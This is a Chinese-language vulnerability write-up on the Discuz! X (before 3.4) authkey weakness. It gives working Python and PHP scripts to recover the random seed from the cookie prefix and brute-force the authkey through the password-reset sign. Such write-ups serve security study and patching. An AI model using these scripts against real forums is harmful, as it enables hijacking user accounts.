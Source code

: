 # Discuz < 3.4 authkey 算法的安全性漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2871](https://www.zhihuifly.com/t/topic/2871)

# Discuz! X < 3.4 authkey 算法的安全性漏洞

## 一、漏洞简介

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等…

## 二、漏洞影响

php>5.3+php-curl<=7.54

*   Discuz_X3.3_SC_GBK
*   Discuz_X3.3_SC_UTF8
*   Discuz_X3.3_TC_BIG5
*   Discuz_X3.3_TC_UTF8
*   Discuz_X3.2_SC_GBK
*   Discuz_X3.2_SC_UTF8
*   Discuz_X3.2_TC_BIG5
*   Discuz_X3.2_TC_UTF8
*   Discuz_X2.5_SC_GBK
*   Discuz_X2.5_SC_UTF8
*   Discuz_X2.5_TC_BIG5
*   Discuz_X2.5_TC_UTF8

## 三、复现过程

### 漏洞分析

在dz3.3/upload/install/index.php 346行

![image](img/a86217d36ea59f111125a6d0efdba22d.png)

我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数

![image](img/e72f907fc1eed58ad37d53b2c996beb8.png)

当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀

```
$_config['cookie']['cookiepre'] = random(4).'_'; 
```

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符

![image](img/49580ebb08af26c491d3394094c5f88a.png)

> 如上图所示，前四位是**sW7c**

然后通过脚本生成用于php_mt_seed的参数

> 这里需要修改第13行代码，替换你自己的cookie前四位

```
# coding=utf-8
w_len = 10
result = ""
str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
length = len(str_list)
for i in xrange(w_len):
	result+="0 "
	result+=str(length-1)
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
sstr = "sW7c"
for i in sstr:
	result+=str(str_list.index(i))
	result+=" "
	result+=str(str_list.index(i))
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
print result 
```

得到参数,使用php_mt_seed脚本

https://github.com/ianxtianxt/php-mt_rand

```
./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt 
```

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串

```
<?php
function random($length) {
	$hash = '';
	$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
	$max = strlen($chars) - 1;
	PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
	for($i = 0; $i < $length; $i++) {
		$hash .= $chars[mt_rand(0, $max)];
	}
	return $hash;
}
$fp = fopen('result.txt', 'rb');
$fp2 = fopen('result2.txt', 'wb');
while(!feof($fp)){
	$b = fgets($fp, 4096);
	if(preg_match("/seed = (\d)+/", $b, $matach)){
		$m = $matach[0];
	}else{
		continue;
	}
	// var_dump(substr($m,7));
	mt_srand(substr($m,7));
	fwrite($fp2, random(10)."\n");
}
fclose($fp);
fclose($fp2); 
```

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16**6*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php` 65行生成用于验证的sign值。

![image](img/a7e6beb7eec864f9ac8a4dc614ac8471.png)

跟随make_getpws_sign函数进入`/source/function/function_member.php`

![image](img/b844808ef037bf6d73dfd9a23b49757b.png)

然后进入dsign函数，配合authkey生成结果

![image](img/51343ce3d61db8ca3179d09a5f0d2f6c.png)

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

### poc

> http://www.0-sec.org/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
> 
> 自行修改第7,8,13行代码

```
# coding=utf-8
import itertools
import hashlib
import time
def dsign(authkey):
	url = "http://127.0.0.1/dz3.3/"
	idstring = "vnY6nW"
	uid = 2
	uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
	url_md5 = hashlib.md5(uurl+authkey)
	return url_md5.hexdigest()[:16]
def main():
	sign = "af3b937d0132a06b"
	str_list = "0123456789abcdef"
	with open('result2.txt') as f:
		ranlist = [s[:-1] for s in f]
	s_list = sorted(set(ranlist), key=ranlist.index)
	r_list = itertools.product(str_list, repeat=6)
	print "[!] start running...."
	s_time = time.time()
	for j in r_list:
		for s in s_list:
			prefix = "".join(j)
			authkey = prefix + s
			# print dsign(authkey)
			if dsign(authkey) == sign:
				print "[*] found used time: " + str(time.time() - s_time)
				return "[*] authkey found: " + authkey
print main() 
```

![image](img/bd70fadbb77fcb7fe81a0fd6a4e1de7f.png)

![image](img/603f093bd68da775d387f8911f3c420c.png)

## 参考链接

> https://lorexxar.cn/2017/08/31/dz-authkey/#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85